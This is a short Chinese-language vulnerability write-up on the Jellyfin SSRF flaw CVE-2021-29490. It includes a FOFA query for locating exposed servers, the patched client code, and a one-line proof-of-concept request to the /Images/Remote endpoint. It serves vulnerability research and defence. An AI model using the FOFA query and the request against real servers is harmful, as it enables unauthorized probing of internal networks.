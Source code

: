 # Jellyfin RemoteImageController.cs SSRF漏洞 CVE-2021-29490

## 漏洞描述

Jellyfin RemoteImageController.cs 文件中存在SSRF漏洞，通过构造特殊的请求，探测内网信息

## 漏洞影响

```
Jellyfin < 10.7.2
```

## FOFA

```
app="Jellyfin"
```

## 漏洞复现

在官方的更新文件中，查找到修改的文件

![](./images/202205241459343.png)

官方删除了某个方法

```
function getDisplayUrl(url, apiClient) {
        return apiClient.getUrl('Images/Remote', { imageUrl: url });
    }
```

下载漏洞版本源码，查找该接口对应的文件

```
Jellyfin.Api/Controllers/RemoteImageController.cs
```

![](./images/202205241459044.png)

其中接收的参数为 imageUrl ，后续的代码片段存在SSRF漏洞

![](./images/202205241459542.png)

构造请求POC

```
/Images/Remote?imageUrl=http://www.baidu.com
```

![](./images/202205241459712.png)